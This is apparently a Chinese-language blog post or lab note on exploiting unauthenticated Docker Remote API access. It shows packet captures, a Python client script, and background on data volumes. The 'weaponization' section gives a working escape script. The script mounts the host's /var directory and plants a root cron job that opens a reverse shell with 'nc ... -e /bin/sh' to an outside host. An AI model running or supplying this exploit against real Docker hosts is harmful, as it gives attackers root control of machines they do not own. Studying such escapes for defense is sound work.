



	10.10.40.21:2375/version

	10.10.40.21:2375/info


	docker -H tcp://10.10.40.21:2376 images

对上面的命令抓包：

	HEAD /_ping HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)

	HTTP/1.1 404 Not Found
	Content-Type: application/json
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 29
	
	GET /_ping HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)
	
	HTTP/1.1 200 OK
	Api-Version: 1.37
	Docker-Experimental: false
	Ostype: linux
	Server: Docker/18.03.0-ce (linux)
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 2
	Content-Type: text/plain; charset=utf-8
	
	OKGET /v1.37/images/json HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)
	
	HTTP/1.1 200 OK
	Api-Version: 1.37
	Content-Type: application/json
	Docker-Experimental: false
	Ostype: linux
	Server: Docker/18.03.0-ce (linux)
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 3
	
	[]

通过响应 ```Api-Version: 1.37```拿到docker 版本。



	# -*- coding:utf-8 -*-
	__author__ = 'leezp'
	__date__ = 20211108
	
	import docker
	
	client = docker.DockerClient(base_url='http://10.10.40.21:2376/')
	print(client.containers.run('alpine:latest', 'echo hello world'))

return:

	E:\software\python3.6\python.exe docker unauth.py"
	b'hello world\n'

见 echo helloworld.pcap

## 容器数据卷volumes

当我们把一个运行中的容器关闭后，容器里面的数据就没有了（如果你做了docker commit操作，数据会保留到新的镜像里面）。

容器之间如果需要共享数据，这时需要容器数据卷。**数据卷就是用来解决数据持久化和数据共享的。**

卷就是目录或文件，存在一个或者多个容器中，由docker宿主机挂载到容器上，但不属于联合文件系统，因此能绕过联合文件系统提供一些用于持久存储或共享数据的特性。

**卷的设计目的就是数据的持久化，完全独立于容器的生存周期，因此docker不会在容器删除时删除其挂载的数据卷。**

数据卷的生命周期一直持续到没有容器使用它为止。

在容器内添加数据卷有两种方法，一个是直接用命令添加，一个是用dockerfile添加。

验证容器和宿主机之间数据共享：

在/宿主机Volume和/docker_Volume上各创建文件，都能互相看到。

## 武器化

	# -*- coding:utf-8 -*-
	__author__ = 'leezp'
	__date__ = 20211108
	
	import docker
	
	client = docker.DockerClient(base_url='http://10.10.40.21:2375/')
	data = client.containers.run('s2-016_struts2:latest',
	                             r'''sh -c "echo '* * * * * /usr/bin/nc ip 21 -e /bin/sh' >> /tmp/var/spool/cron/root" ''',
	                             remove=True, volumes={'/var': {'bind': '/tmp/var', 'mode': 'rw'}})

```'mode': 'rw'```表示可读可写，volumes  表示  将 宿主机的 /var 目录绑定到 docker 的 /tmp/var 目录下

remove=True 表示启动完docker 将其删除。

定时任务的目录 ：  /var/spool/cron/ 目录下，有些是 /var/spool/cron/crontabs/root 表示root用户的记录任务，有些是 /var/spool/cron/root 路径。  即 crontab -l -uroot 命令的结果

**逃逸原理：通过磁盘挂载，将计划任务写到宿主机。**

攻击成功：



备注：Docker使用socket进行客户端和服务端的连接，unix:///var/run/docker.sock Unix端口，是默认的连接方式

## reference

[docker笔记12-容器数据卷volumes](http://blog.itpub.net/28916011/viewspace-2213253/)

[docker逃逸总结](https://www.cnblogs.com/TheTh1nk3r/p/15345381.html#0x01-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)

[常见未授权访问漏洞总结](https://www.cnblogs.com/linuxsec/articles/11426507.html)

